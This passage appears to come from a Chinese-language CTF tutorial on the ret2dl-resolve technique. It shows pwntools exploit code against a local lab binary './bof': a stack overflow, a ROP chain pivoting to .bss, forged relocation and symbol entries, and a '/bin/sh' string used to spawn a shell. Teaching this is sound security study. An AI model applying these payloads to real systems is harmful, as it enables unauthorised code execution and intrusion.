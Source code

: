 ```python
cmd='/bin/sh\x00'

payload2='aaaa'
payload2+=p32(plt_start)
payload2+=p32(rel_offset)
payload2+='dead'
payload2+=p32(1)
payload2+=p32(binsh_addr)
payload2+=p32(len(cmd))
payload2+=fake_rel
payload2=payload2.ljust(80,'d')
payload2+=cmd
payload2=payload2.ljust(100,'d')

io.recvuntil('2015~!')
io.sendline(payload1)
sleep(1)
io.sendline(payload2)

io.interactive()
```

### stage4

伪造fake_sym指向st_name

```python
from pwn import *

io=process('./bof')
elf=ELF('./bof')
context.log_level='debug'

write_plt=elf.plt['write']
read_plt=elf.plt['read']
write_got=elf.got['write']
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

p_p_p_ret=0x0804856c
leave_ret=0x08048481
pop_ebp_ret=0x08048453

payload1='a'*112
payload1+=p32(read_plt)
payload1+=p32(p_p_p_ret)
payload1+=p32(0)
payload1+=p32(base_stage)
payload1+=p32(100)
payload1+=p32(pop_ebp_ret)
payload1+=p32(base_stage)
payload1+=p32(leave_ret)

JMPREL=0x8048318
SYMTAB=0x80481d8
plt_start=0x8048370
fake_rel_addr=base_stage+28
rel_offset=fake_rel_addr-JMPREL
binsh_addr=base_stage+80
cmd='/bin/sh\x00'

fake_sym_addr=base_stage+36
```